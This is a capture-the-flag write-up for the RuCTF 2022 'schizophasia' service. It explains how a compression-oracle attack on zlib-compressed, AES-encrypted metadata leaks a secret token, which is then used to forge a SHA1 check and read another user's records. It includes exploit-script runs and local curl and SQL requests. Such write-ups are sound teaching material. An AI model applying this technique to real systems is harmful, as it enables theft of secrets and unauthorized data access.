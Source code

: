 ### RuCTF 2022 | schizophasia 

# Description

Service forwards your question to a doctor who can easily answer any question. The only problem that it seems like the doctor speaks some nonsense. 

Service consists of two parts: registry and doctor. 

## Doctor (GoLang)

The doctor can answer any question. Unfortunately, the doctor doesn't want to communicate with the outside world. The only thing that doctor accepts is specially crafted messages from the registry. After reading the message, the doctor writes the response into the registry and creates a special token for the user.

## Registry (PostgreSQL)
The registry is a PostgreSQL instance with a slightly modified protocol. It uses `Y` instead of `R` to mark an authentication request message. Service can do one of the following:

1. Wrap your question into a special message that the doctor service can understand.
2. Look up the medical records and exchange the token from the doctor for the record that contains the doctor's answer to your question.

## Client
To make life easier, the service also provides the client application that performs it automatically.


# Details
Here is the sample service communication flow:

1. Client sends a query to registry:
`SELECT add_job(QUESTION, USER_ID)`, where `QUESTION` and `USER_ID` are provided by the client.

2. Registry looks up the current `TOKEN`. Registry generates a new `TOKEN` every 15 minutes. Each `TOKEN` has a lifetime of 30 minutes. 

3. Registry crafts the following metadata:
```json
{ "question":"QUESTION", "token": "TOKEN", "userid": "USER_ID" }
```

4. Registry compresses the metadata using ZLIB and encrypts the compressed metadata using the  AES-256-CBC cipher.

5. Registry returns the crafted metadata:

```
postgres=# select add_job('QUESTION', 'USER_ID');
                                                                             add_job
------------------------------------------------------------------------------------------------------------------------------------------------------------------
 538ACFFF99CEAC3A62CACE164A1AFFF513A061593B06AB3DA76E101B69016CC8B689AA7251CE1135646F0E26A82908AC33626EE54BD534B08CC3FC4253A34CC2C3D6734FC2105C46B05798E46D8B1B2F
(1 row)
```

6. Also, the registry stores the following information in the database:
```
 question | userid  | status | result |    date    | token
----------+---------+--------+--------+------------+-------
 QUESTION | USER_ID | f      |        | 2022-05-22 | TOKEN
```

7. Client sends the metadata to the doctor service. The doctor computes the token as SHA1 sum of the following string "USER_ID"+"TOKEN" and returns the token to the client.

```
curl --location --request PUT 'http://127.0.0.1:18181/api/v1/jobs' \
--form 'id="538ACFFF99CEAC3A62CACE164A1AFFF513A061593B06AB3DA76E101B69016CC8B689AA7251CE1135646F0E26A82908AC33626EE54BD534B08CC3FC4253A34CC2C3D6734FC2105C46B05798E46D8B1B2F"'

{"code":200,"msg":"ok","data":"90E84150E952B3976A98CF5990629BCB5FD017BF"}
```

8. Client uses the token to format a medical history lookup request to the registry. To verify the client's request, the registry also computes the SHA1 sum of "USER_ID"+"TOKEN" and checks if it matches the provided one.

```
postgres=# SELECT * FROM medical_history('USER_ID', '90E84150E952B3976A98CF5990629BCB5FD017BF') limit 1;
     q     |    u    | s |   r
-----------+---------+---+--------
 QUESTION2 | USER_ID | t | ANSWER
(1 row)
```

# Solution

## Overview
The solution is pretty straightforward. If you look closer at steps 1-5, you can notice that the client is able to inject arbitrary data into the contents of the compressed & encrypted metadata and observe its size. It allows the attacker (client) to exploit the "compression oracle" vulnerability. 

By utilizing the compression oracle attack, the client is able to read the contents of the encrypted metadata (including the TOKEN) from the registry (step 5). The client can now compute the SHA1 hash with any USER_ID (received from the check system) and pass it to the registry service to read the medical history entry.

## Example

### Token lookup

```
~/ructf-2022/sploits/schizophasia$ ./guess_token.py 127.0.0.1
current letter: A, len: 192
current letter: B, len: 192
current letter: C, len: 192
current letter: D, len: 192
current letter: E, len: 192
current letter: F, len: 192
current letter: G, len: 192
current letter: H, len: 192
current letter: I, len: 192
current letter: J, len: 160
current letter: K, len: 192
current letter: L, len: 192
current letter: M, len: 192
current letter: N, len: 192
current letter: O, len: 192
current letter: P, len: 192
current letter: Q, len: 192
current letter: R, len: 192
current letter: S, len: 192
current letter: T, len: 192
current letter: U, len: 192
current letter: V, len: 192
current letter: W, len: 192
current letter: X, len: 192
current letter: Y, len: 192
current letter: Z, len: 192
INITIAL LENGTHS: [(160, 'J')]

# on the next step, choose the entry with the smallest metadata length

current guess: JE, len: 160
current guess: JEA, len: 160
current guess: JEAC, len: 160
current guess: JEACC, len: 160
current guess: JEACL, len: 160
current guess: JEACLM, len: 160
current guess: JEACLW, len: 160
current guess: JEACLMW, len: 160
current guess: JEACLMWC, len: 160
current guess: JEACLMWCP, len: 160
current guess: JEACLMWCPO, len: 160
[[[[[('failed', 9999999999999), [[[[[('JEACLMWCPO', 160)]]]], ('failed', 9999999999999)]]]]]]
```

### Get flag
```
~/ructf-2022/sploits/schizophasia$ ./get_flag.py 127.0.0.1 user_9024abda-2635-4fcd-a0fc-8dbce7f76414 JEACLMWCPO
SHA1: 99EDDB333C6C1E53B1976FA47B1044E2C2E44B51
SELECT * FROM medical_history('user_9024abda-2635-4fcd-a0fc-8dbce7f76414', '99EDDB333C6C1E53B1976FA47B1044E2C2E44B51')

Q: UGIF3IC9SSAOJZQO5RFJISHUEHAPL5O=, U: user_9024abda-2635-4fcd-a0fc-8dbce7f76414, S: True, R: lack of in-house expertise can amplify these costs But organizations with a comprehensive cybersecurity strategy governed by best practices and automated using advanced analytics artificial intelligence and machine learning can fight cyberthreats more effectively and reduce the lifecycle and impact of breaches when they occur
```



